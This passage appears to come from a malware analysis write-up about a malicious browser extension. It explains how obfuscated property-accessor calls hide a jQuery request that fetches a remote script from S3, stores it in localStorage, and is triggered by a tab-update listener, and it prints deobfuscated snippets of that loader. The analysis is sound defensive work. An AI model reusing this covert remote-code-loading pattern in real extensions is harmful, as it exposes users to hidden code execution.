 After `getMediaPath` has assigned the JSON object's contents to the window, `setMediaPath` is called to execute an AJAX call to fetch the contents of the script in S3 and storing it in local storage. Before fetching whatever is stored in S3, the script performs checks to ensure that the window variables `jj` and `uu` are defined (jQuery and S3 URL, respectively). I'll be honest and say that I'm not quite sure `gg > jj` is for anything other than doing some fuzzy validation to ensure these variables were not tampered.

In actuality, the code that is executed in `setMediaPath` is really this:

```js
setMediaPath: function() {
    "undefined" != typeof '$' && '$' && 'https://...' && 'get' > '$' && window['$']['get']('https://...', function(a) {
        var b = "cfg_audio_id";
        localStorage[b] = a
    })
}
```

So what is going on here? In `getMediaPath`, the code is taking advantage of what you can do with JavaScript, which is to store a string representation of tokens (or code) and then execute them. For example:

"`js
let test = {
    "c": "console",
    "l": "log"
};
for (const key in test) { window[key] = test[key]; }

window[c][l]('test'); // Prints out 'test'
```

This feature, called [property accessors](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Property_Accessors), allows anyone to reference functions by their name from a given object. The code the attacker works here since the jQuery library is initialized at the beginning when the browser loads, defining the `$` object to be accessed at any time.

----

Let's take a step back and analyze how the functions I described above fit into the whole situation since I've only been focusing on the specifics above and the order I was investigating the functions.

To start, the line that triggers all of this to happen in the first place is when an event listener is attached to monitor when tabs are updated when the extension is first loaded. `A` is defined as the flag that dictates if we have executed the malicious S3 script yet.

​```js
A = !1

// ...

chrome.tabs.onUpdated.addListener(e);
```
